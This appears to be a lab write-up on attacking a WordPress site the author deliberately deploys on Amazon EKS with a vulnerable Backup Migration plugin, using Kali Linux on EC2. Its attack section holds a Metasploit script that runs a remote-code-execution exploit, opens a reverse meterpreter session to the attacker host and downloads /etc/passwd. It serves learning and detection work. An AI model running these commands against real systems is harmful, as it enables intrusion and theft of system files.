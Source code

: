 ```yaml
---
title: Exploit vulnerability in a WordPress plugin with Kali Linux
author: Petr Ruzicka
date: 2024-04-27
description: Learn how to exploit a vulnerability in a WordPress plugin running on Amazon EKS using Kali Linux
categories: [Kubernetes, Amazon EKS, Security, Exploit, Vulnerability, Kali Linux]
tags:
  [
    Amazon EKS,
    k8s,
    kubernetes,
    security,
    eksctl,
    Kali Linux,
    exploit,
    vulnerability,
    WordPress,
    plugin,
  ]
image: https://raw.githubusercontent.com/ziadOUA/m3-Markdown-Badges/b186f2f632218b42ca465481e78f1dcd67d0947e/badges/KaliLinux/kalilinux2.svg
---
```


![Kali Linux](https://media.githubusercontent.com/media/openutd/openutd.github.io/e006b3c723e203399f4099045e937e1ca820a7f7/slides/assets/kali_linux.png)

![Kali Linux](https://raw.githubusercontent.com/I-Am-Jakoby/I-Am-Jakoby/7b157110a552c8e37a87394b77dc9cd9be45e48d/img/kali-linux.svg)

![Kali Linux](https://github.com/Qroia/Qroia/blob/af0f0d001bebaebbd340a9e688aaa54a98fa2eb5/configs/gnu-linux/themes/TokyoNight/tokyonight__dark_icons/apps/64/kali-metasploit.svg)

![Kali Linux](https://media.githubusercontent.com/media/openutd/openutd.github.io/e006b3c723e203399f4099045e937e1ca820a7f7/slides/assets/kali_linux.png)

For the educational purposes, I have created this repository to keep my notes on
Kubernetes hacking.

The goal is to learn how to hack application running on Kubernetes clusters and
detect such attacks using security tools.

## Set necessary environment variables and download CloudFormation templates

```bash
export AWS_REGION="eu-central-1"
export AWS_EC2_KEY_PAIR_NAME="ruzickap"
```

Download the CloudFormation templates for Ubuntu, Kali Linux and VPC:

```bash
wget https://raw.githubusercontent.com/aws-samples/aws-codebuild-samples/e43fe99f21b02635873bddeed92b669e8e5156d3/ci_tools/vpc_cloudformation_template.yml
wget https://raw.githubusercontent.com/aws-samples/amazon-ec2-nice-dcv-samples/main/cfn/KaliLinux-NICE-DCV.yaml
wget https://raw.githubusercontent.com/aws-samples/amazon-ec2-nice-dcv-samples/main/cfn/Ubuntu-NICE-DCV.yaml
```

## Install Kali Linux

Install [Kali Linux](https://www.kali.org/) on Amazon EC2 instance using the
CloudFormation template:

```bash
export SOLUTION_KALI="KaliLinux-NICE-DCV"

aws cloudformation deploy --capabilities CAPABILITY_NAMED_IAM \
  --parameter-overrides "EnvironmentName=${SOLUTION_KALI}" \
  --stack-name "${SOLUTION_KALI}-VPC" --template-file vpc_cloudformation_template.yml \
  --tags "Owner=$USERNAME Environment=dev Solution=${SOLUTION_KALI}"

AWS_CLOUDFORMATION_DETAILS=$(aws cloudformation describe-stacks --stack-name "${SOLUTION_KALI}-VPC")
AWS_VPC_ID=$(echo "${AWS_CLOUDFORMATION_DETAILS}" | jq -r ".Stacks[0].Outputs[] | select(.OutputKey==\"VPC\") .OutputValue")
AWS_SUBNET_ID=$(echo "${AWS_CLOUDFORMATION_DETAILS}" | jq -r ".Stacks[0].Outputs[] | select(.OutputKey==\"PublicSubnet1\") .OutputValue")

eval aws cloudformation create-stack --capabilities CAPABILITY_AUTO_EXPAND CAPABILITY_NAMED_IAM CAPABILITY_IAM \
  --parameters "ParameterKey=ec2KeyPair,ParameterValue=${AWS_EC2_KEY_PAIR_NAME} ParameterKey=vpcID,ParameterValue=${AWS_VPC_ID} ParameterKey=subnetID,ParameterValue=${AWS_SUBNET_ID}" \
  --stack-name "${SOLUTION_KALI}" --template-body file://KaliLinux-NICE-DCV.yaml \
  --tags "Key=Owner,Value=$USERNAME Key=Environment,Value=dev Key=Solution,Value=${SOLUTION_KALI}"

# Use aws-cli to allow HTTPS traffic to the EC2 instance
# https://github.com/aws-samples/amazon-ec2-nice-dcv-samples/issues/4
AWS_EC2_KALI_LINUX_SECURITY_GROUP_ID=$(aws ec2 describe-security-groups --output text \
  --filters "Name=tag:Solution,Values=${SOLUTION_KALI}" \
  --query 'SecurityGroups[?IpPermissions[?ToPort==`8443` && contains(IpRanges[].CidrIp, `0.0.0.0/0`)]].GroupId' \
)
aws ec2 authorize-security-group-ingress --group-id "${AWS_EC2_KALI_LINUX_SECURITY_GROUP_ID}" \
  --protocol tcp --port 443 --cidr 0.0.0.0/0
```

## Install Amazon EKS cluster and vulnerable Wordpress Application

### Install the Amazone EKS cluster

Install the Amazon EKS cluster using the `eksctl`:

```bash
SOLUTION_EKS="Amazon-EKS"
export KUBECONFIG="/tmp/kubeconfig-${SOLUTION_EKS}.conf"

eksctl create cluster \
  --name "${SOLUTION_EKS}" --tags "Owner=${USERNAME},Solution=${SOLUTION_EKS},Cluster=${SOLUTION_EKS}" \
  --node-type t4g.medium --node-volume-size 20 --node-private-networking \
  --kubeconfig "${KUBECONFIG}"
```

### Install vulnerable Wordpress Application

Install vulnerable Wordpress Application to the Amazon EKS cluster:

```bash
# https://github.com/bitnami/charts/tree/main/bitnami/wordpress
WORDPRESS_HELM_CHART_VERSION="22.1.3"

tee "/tmp/helm_values-wordpress.yml" << EOF
wordpressUsername: wordpress
wordpressPassword: $(openssl rand -base64 12)
customPostInitScripts:
  install_plugins.sh: |
    wp plugin install backup-backup --version=1.3.7 --activate
persistence:
  enabled: false
mariadb:
  primary:
    persistence:
      enabled: false
EOF
helm upgrade --install --version "${WORDPRESS_HELM_CHART_VERSION}" --namespace wordpress --create-namespace --values "/tmp/helm_values-wordpress.yml" wordpress oci://registry-1.docker.io/bitnamicharts/wordpress
```

The vulnerable version of the [WordPress Backup Migration Plugin](https://www.rapid7.com/db/modules/exploit/multi/http/wp_backup_migration_php_filter/)
plugin was installed.

Details about the vulnerability can be found in the
[WordPress Backup Migration Plugin PHP Filter Chain RCE](https://www.rapid7.com/db/modules/exploit/multi/http/wp_backup_migration_php_filter/)
post.

Let's get the LoadBalancer / Wordpress URL and login credentials:

```bash
export K8S_WORDPRESS_SERVICE=$(kubectl get svc --namespace wordpress wordpress --template "{{ range (index .status.loadBalancer.ingress 0) }}{{ . }}{{ end }}")
echo "WordPress URL: http://${K8S_WORDPRESS_SERVICE}/"
echo "WordPress Admin URL: http://${K8S_WORDPRESS_SERVICE}/admin"
echo Username: wordpress
echo Password: $(kubectl get secret --namespace wordpress wordpress -o jsonpath="{.data.wordpress-password}" | base64 -d)
```

```text
WordPress URL: http://a8584a20dced449d3a1c5c38e0f5e222-1249223458.eu-central-1.elb.amazonaws.com/
WordPress Admin URL: http://a8584a20dced449d3a1c5c38e0f5e222-1249223458.eu-central-1.elb.amazonaws.com/admin
Username: wordpress
Password: M........3
```

## Attack the Wordpress Application

Login to the Kali Linux instance and attack the Wordpress Application:

```bash
AWS_EC2_KALI_LINUX_PUBLIC_IP=$(aws ec2 describe-instances --filters "Name=tag:Solution,Values=${SOLUTION}" --query "Reservations[].Instances[].PublicIpAddress" --output text)
ssh "kali@${AWS_EC2_KALI_LINUX_PUBLIC_IP}" << EOF2
sudo snap install metasploit-framework
msfdb init

cat << EOF | msfconsole --resource -
use auxiliary/scanner/http/wordpress_scanner
set rhost ${K8S_WORDPRESS_SERVICE}
run

use exploit/multi/http/wp_backup_migration_php_filter
set rhost ${K8S_WORDPRESS_SERVICE}
set lhost ${AWS_EC2_KALI_LINUX_PUBLIC_IP}
set lport 443
run

sessions --interact 1 --meterpreter-command ps --meterpreter-command sysinfo --meterpreter-command "download /etc/passwd"
exit -y
EOF
EOF2
```

## Cleanup

```bash
aws cloudformation delete-stack --stack-name "${SOLUTION}"
eksctl delete cluster --name "${SOLUTION}-EKS"
aws cloudformation delete-stack --stack-name "${SOLUTION}-VPC"
```

Enjoy ... 😉
